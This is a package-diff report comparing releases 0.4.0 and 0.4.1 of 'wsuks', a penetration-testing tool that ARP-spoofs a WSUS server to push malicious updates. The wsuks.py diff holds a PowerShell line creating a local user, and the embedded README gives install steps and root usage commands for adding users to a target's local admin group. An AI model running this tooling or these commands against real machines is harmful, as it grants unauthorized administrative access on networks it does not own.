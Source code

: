 # Comparing `tmp/wsuks-0.4.0.tar.gz` & `tmp/wsuks-0.4.1.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "wsuks-0.4.0.tar", max compression
+gzip compressed data, was "wsuks-0.4.1.tar", max compression
```

## Comparing `wsuks-0.4.0.tar` & `wsuks-0.4.1.tar`

### file list

```diff
@@ -1,23 +1,23 @@
--rw-r--r--   0        0        0     1301 2023-04-06 19:28:11.193610 wsuks-0.4.0/LICENSE
--rw-r--r--   0        0        0     2999 2023-07-08 18:26:45.324871 wsuks-0.4.0/README.md
--rw-r--r--   0        0        0      523 2023-07-08 18:53:50.080905 wsuks-0.4.0/pyproject.toml
--rw-r--r--   0        0        0        0 2023-07-01 15:16:02.001468 wsuks-0.4.0/wsuks/__init__.py
--rw-r--r--   0        0        0   717232 2023-03-30 14:57:14.000000 wsuks-0.4.0/wsuks/executables/PsExec.exe
--rw-r--r--   0        0        0   831888 2023-03-30 14:57:14.000000 wsuks-0.4.0/wsuks/executables/PsExec64.exe
--rw-r--r--   0        0        0        0 2023-03-19 17:44:56.143981 wsuks-0.4.0/wsuks/helpers/__init__.py
--rw-r--r--   0        0        0     3107 2023-07-08 18:15:56.196858 wsuks-0.4.0/wsuks/helpers/argparser.py
--rw-r--r--   0        0        0     3306 2023-07-07 23:08:04.680283 wsuks-0.4.0/wsuks/helpers/arpspoofer.py
--rw-r--r--   0        0        0     2628 2023-07-07 23:26:14.448306 wsuks-0.4.0/wsuks/helpers/logger.py
--rw-r--r--   0        0        0     3383 2023-07-08 17:51:21.092827 wsuks-0.4.0/wsuks/helpers/sysvolparser.py
--rw-r--r--   0        0        0    10323 2023-07-07 23:20:30.360298 wsuks-0.4.0/wsuks/helpers/wsusserver.py
--rw-r--r--   0        0        0     4438 2023-07-08 18:52:59.828904 wsuks-0.4.0/wsuks/wsuks.py
--rw-r--r--   0        0        0      583 2023-04-06 19:28:41.085610 wsuks-0.4.0/wsuks/xml_files/get-authorization-cookie.xml
--rw-r--r--   0        0        0      838 2023-04-06 19:28:44.697610 wsuks-0.4.0/wsuks/xml_files/get-config.xml
--rw-r--r--   0        0        0      526 2023-04-06 19:28:47.697610 wsuks-0.4.0/wsuks/xml_files/get-cookie.xml
--rw-r--r--   0        0        0     4247 2023-04-06 19:28:51.417611 wsuks-0.4.0/wsuks/xml_files/get-extended-update-info.xml
--rw-r--r--   0        0        0      469 2023-04-06 19:28:58.353611 wsuks-0.4.0/wsuks/xml_files/internal-error.xml
--rw-r--r--   0        0        0      364 2023-04-06 19:29:04.397611 wsuks-0.4.0/wsuks/xml_files/register-computer.xml
--rw-r--r--   0        0        0      418 2023-04-06 19:29:08.141611 wsuks-0.4.0/wsuks/xml_files/report-event-batch.xml
--rw-r--r--   0        0        0     3295 2023-04-06 19:29:12.273611 wsuks-0.4.0/wsuks/xml_files/sync-updates.xml
--rw-r--r--   0        0        0     3966 1970-01-01 00:00:00.000000 wsuks-0.4.0/setup.py
--rw-r--r--   0        0        0     3655 1970-01-01 00:00:00.000000 wsuks-0.4.0/PKG-INFO
+-rw-r--r--   0        0        0     1301 2023-04-06 19:28:11.193610 wsuks-0.4.1/LICENSE
+-rw-r--r--   0        0        0     2999 2023-07-08 18:26:45.324871 wsuks-0.4.1/README.md
+-rw-r--r--   0        0        0      523 2023-07-09 12:00:38.052087 wsuks-0.4.1/pyproject.toml
+-rw-r--r--   0        0        0        0 2023-07-01 15:16:02.001468 wsuks-0.4.1/wsuks/__init__.py
+-rw-r--r--   0        0        0   717232 2023-03-30 14:57:14.000000 wsuks-0.4.1/wsuks/executables/PsExec.exe
+-rw-r--r--   0        0        0   831888 2023-03-30 14:57:14.000000 wsuks-0.4.1/wsuks/executables/PsExec64.exe
+-rw-r--r--   0        0        0        0 2023-03-19 17:44:56.143981 wsuks-0.4.1/wsuks/helpers/__init__.py
+-rw-r--r--   0        0        0     3107 2023-07-08 18:15:56.196858 wsuks-0.4.1/wsuks/helpers/argparser.py
+-rw-r--r--   0        0        0     3306 2023-07-07 23:08:04.680283 wsuks-0.4.1/wsuks/helpers/arpspoofer.py
+-rw-r--r--   0        0        0     2628 2023-07-07 23:26:14.448306 wsuks-0.4.1/wsuks/helpers/logger.py
+-rw-r--r--   0        0        0     3383 2023-07-08 17:51:21.092827 wsuks-0.4.1/wsuks/helpers/sysvolparser.py
+-rw-r--r--   0        0        0    10323 2023-07-07 23:20:30.360298 wsuks-0.4.1/wsuks/helpers/wsusserver.py
+-rw-r--r--   0        0        0     4535 2023-07-09 11:57:58.844084 wsuks-0.4.1/wsuks/wsuks.py
+-rw-r--r--   0        0        0      583 2023-04-06 19:28:41.085610 wsuks-0.4.1/wsuks/xml_files/get-authorization-cookie.xml
+-rw-r--r--   0        0        0      838 2023-04-06 19:28:44.697610 wsuks-0.4.1/wsuks/xml_files/get-config.xml
+-rw-r--r--   0        0        0      526 2023-04-06 19:28:47.697610 wsuks-0.4.1/wsuks/xml_files/get-cookie.xml
+-rw-r--r--   0        0        0     4247 2023-04-06 19:28:51.417611 wsuks-0.4.1/wsuks/xml_files/get-extended-update-info.xml
+-rw-r--r--   0        0        0      469 2023-04-06 19:28:58.353611 wsuks-0.4.1/wsuks/xml_files/internal-error.xml
+-rw-r--r--   0        0        0      364 2023-04-06 19:29:04.397611 wsuks-0.4.1/wsuks/xml_files/register-computer.xml
+-rw-r--r--   0        0        0      418 2023-04-06 19:29:08.141611 wsuks-0.4.1/wsuks/xml_files/report-event-batch.xml
+-rw-r--r--   0        0        0     3295 2023-04-06 19:29:12.273611 wsuks-0.4.1/wsuks/xml_files/sync-updates.xml
+-rw-r--r--   0        0        0     3966 1970-01-01 00:00:00.000000 wsuks-0.4.1/setup.py
+-rw-r--r--   0        0        0     3655 1970-01-01 00:00:00.000000 wsuks-0.4.1/PKG-INFO
```

### Comparing `wsuks-0.4.0/LICENSE` & `wsuks-0.4.1/LICENSE`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/README.md` & `wsuks-0.4.1/README.md`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/pyproject.toml` & `wsuks-0.4.1/pyproject.toml`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 [tool.poetry]
 name = "wsuks"
-version = "0.4.0"
+version = "0.4.1"
 description = "A Tool for automating the MITM attack on the WSUS connection"
 authors = ["Alexander Neff <alex99.neff@gmx.de>"]
 readme = "README.md"
 license = "MIT"
 packages = [
     { include = "wsuks" }
 ]
```

### Comparing `wsuks-0.4.0/wsuks/executables/PsExec.exe` & `wsuks-0.4.1/wsuks/executables/PsExec.exe`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/executables/PsExec64.exe` & `wsuks-0.4.1/wsuks/executables/PsExec64.exe`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/helpers/argparser.py` & `wsuks-0.4.1/wsuks/helpers/argparser.py`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/helpers/arpspoofer.py` & `wsuks-0.4.1/wsuks/helpers/arpspoofer.py`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/helpers/logger.py` & `wsuks-0.4.1/wsuks/helpers/logger.py`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/helpers/sysvolparser.py` & `wsuks-0.4.1/wsuks/helpers/sysvolparser.py`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/helpers/wsusserver.py` & `wsuks-0.4.1/wsuks/helpers/wsusserver.py`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/wsuks.py` & `wsuks-0.4.1/wsuks/wsuks.py`

 * *Files 1% similar despite different names*

```diff
@@ -26,21 +26,24 @@
         # Set args
         self.targetIp = args.targetIp  # Never None (required)
         self.executable_file = args.executable.read()
         self.executable_name = os.path.basename(args.executable.name)
         args.executable.close()
 
         # Set Command
-        self.command_prefix = 'New-LocalUser -Name "WSUKS_USER" -Password $(ConvertTo-SecureString "WSUKS_PASSWORD" -AsPlainText -Force) -Fullname "wsuks user" -Description "This user was generated by the wsuks Tool"; '
-        if args.username and args.password and args.domain:
-            self.logger.success(f"Using domain user for the WSUS attack: User={colored(args.username, 'green', attrs=['bold'])} Password={colored(args.password, 'green', attrs=['bold'])} Domain={colored(args.domain, 'green', attrs=['bold'])}")
-            self.command = args.command.replace("PREFIX", "").replace("WSUKS_USER", args.domain + "\\" + args.username).replace("WSUKS_PASSWORD", args.password)
+        if args.command:
+            self.command = args.command
         else:
-            self.logger.success(f"Generated local user for the WSUS attack: Username={colored(self.local_username, 'green', attrs=['bold'])} Password={colored(self.local_password, 'green', attrs=['bold'])}")
-            self.command = args.command.replace("PREFIX", self.command_prefix).replace("WSUKS_USER", self.local_username).replace("WSUKS_PASSWORD", self.local_password)
+            command_prefix = 'New-LocalUser -Name "WSUKS_USER" -Password $(ConvertTo-SecureString "WSUKS_PASSWORD" -AsPlainText -Force) -Fullname "wsuks user" -Description "This user was generated by the wsuks Tool"; '
+            if args.username and args.password and args.domain:
+                self.logger.success(f"Using domain user for the WSUS attack: User={colored(args.username, 'green', attrs=['bold'])} Password={colored(args.password, 'green', attrs=['bold'])} Domain={colored(args.domain, 'green', attrs=['bold'])}")
+                self.command = args.command.replace("PREFIX", "").replace("WSUKS_USER", args.domain + "\\" + args.username).replace("WSUKS_PASSWORD", args.password)
+            else:
+                self.logger.success(f"Generated local user for the WSUS attack: Username={colored(self.local_username, 'green', attrs=['bold'])} Password={colored(self.local_password, 'green', attrs=['bold'])}")
+                self.command = args.command.replace("PREFIX", command_prefix).replace("WSUKS_USER", self.local_username).replace("WSUKS_PASSWORD", self.local_password)
         self.logger.success(f"Command to execute: {self.command}")
 
         self.wsusIp = args.wsusIp
         self.wsusPort = args.wsusPort  # Default 8530
         self.domain_username = args.username
         self.domain_password = args.password
         self.domain = args.domain
```

### Comparing `wsuks-0.4.0/wsuks/xml_files/get-authorization-cookie.xml` & `wsuks-0.4.1/wsuks/xml_files/get-authorization-cookie.xml`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/xml_files/get-config.xml` & `wsuks-0.4.1/wsuks/xml_files/get-config.xml`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/xml_files/get-cookie.xml` & `wsuks-0.4.1/wsuks/xml_files/get-cookie.xml`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/xml_files/get-extended-update-info.xml` & `wsuks-0.4.1/wsuks/xml_files/get-extended-update-info.xml`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/wsuks/xml_files/sync-updates.xml` & `wsuks-0.4.1/wsuks/xml_files/sync-updates.xml`

 * *Files identical despite different names*

### Comparing `wsuks-0.4.0/setup.py` & `wsuks-0.4.1/setup.py`

 * *Files 0% similar despite different names*

```diff
@@ -15,15 +15,15 @@
  'termcolor>=2.2.0,<3.0.0']
 
 entry_points = \
 {'console_scripts': ['wsuks = wsuks.wsuks:main']}
 
 setup_kwargs = {
     'name': 'wsuks',
-    'version': '0.4.0',
+    'version': '0.4.1',
     'description': 'A Tool for automating the MITM attack on the WSUS connection',
     'long_description': '![Supported Python versions](https://img.shields.io/badge/python-3.10+-blue.svg) [![Twitter](https://img.shields.io/twitter/follow/al3x_n3ff?label=al3x_n3ff&style=social)](https://twitter.com/intent/follow?screen_name=al3x_n3ff)\n# wsuks\n_Weaponizing the WSUS Attack_\n\nGaining local administrative access on a Windows machine that is part of a domain is typically the initial step towards acquiring domain admin privileges during a penetration test. In order to exploit the WSUS attack automatically, this tool spoofs the IP address of the WSUS server within the network using ARP, and when the client requests Windows updates, it provides its own malicious updates instead.\nBy default, a Windows client requests updates every 24 hours. \n\nBoth the executable file served (Default: PsExec64.exe) and the executed command can be changed as needed.\n\nPrerequisits:\n- The target Client must be on the local network\n- The Windows Server Update Service (WSUS) must be configured using HTTP\n\nResult:\n- After successful execution the user provided will be added to the local admin group. If no user was specified a user with the format user[0-9]{5} (e.g. user12345) and a random password will be created\n\n## Installation\nUsing pipx:\n```\nsudo apt install python3-pipx\npipx ensurepath\npipx install wsuks\nsudo ln -s ~/.local/pipx/venvs/wsuks/bin/wsuks /usr/local/bin/wsuks\n```\n\nUsing poetry:\n```\nsudo apt install python3-poetry\ngit clone https://github.com/NeffIsBack/wsuks\ncd wsuks\nsudo poetry install\n```\n\n## Usage\n❗wsuks must be run as root❗\n\nWith pipx:\n```\nsudo wsuks\nsuso wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20     # This will generate a new local user and add it to the local admin group\nsudo wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20 -u User -p Password -d Domain.local     # This will add the provided user to the local admin group\nsudo wsuks -t 10.0.0.10 -u User -p Password -d Domain.local --dc-ip 10.0.0.1      # This will start the auto discovery mode and add the provided user to the local admin group\n```\n\nWith poetry:\n```\nsuso poetry run wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20     # This will generate a new local user and add it to the local admin group\nsudo poetry run wsuks -t 10.0.0.10 --WSUS-Server 10.0.0.20 -u User -p Password -d Domain.local     # This will add the provided user to the local admin group\nsudo poetry run wsuks -t 10.0.0.10 -u User -p Password -d Domain.local --dc-ip 10.0.0.1      # This will start the auto discovery mode and add the provided user to the local admin group\n```\n\n## About & Mitigation\nIn the [PyWSUS](https://github.com/GoSecure/pywsus) Repository from GoSecure you can find a great documentation how to you could detect and mitigate this attack.\nThey also wrote a great Guide demonstrating how this attack works in detail [here](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/).\n\nThis Tool is based on the following projects:\n- https://github.com/GoSecure/pywsus\n- https://github.com/GoSecure/wsuspect-proxy\n\n',
     'author': 'Alexander Neff',
     'author_email': 'alex99.neff@gmx.de',
     'maintainer': 'None',
     'maintainer_email': 'None',
     'url': 'None',
```

### Comparing `wsuks-0.4.0/PKG-INFO` & `wsuks-0.4.1/PKG-INFO`

 * *Files 0% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: wsuks
-Version: 0.4.0
+Version: 0.4.1
 Summary: A Tool for automating the MITM attack on the WSUS connection
 License: MIT
 Author: Alexander Neff
 Author-email: alex99.neff@gmx.de
 Requires-Python: >=3.10,<4.0
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Programming Language :: Python :: 3
```

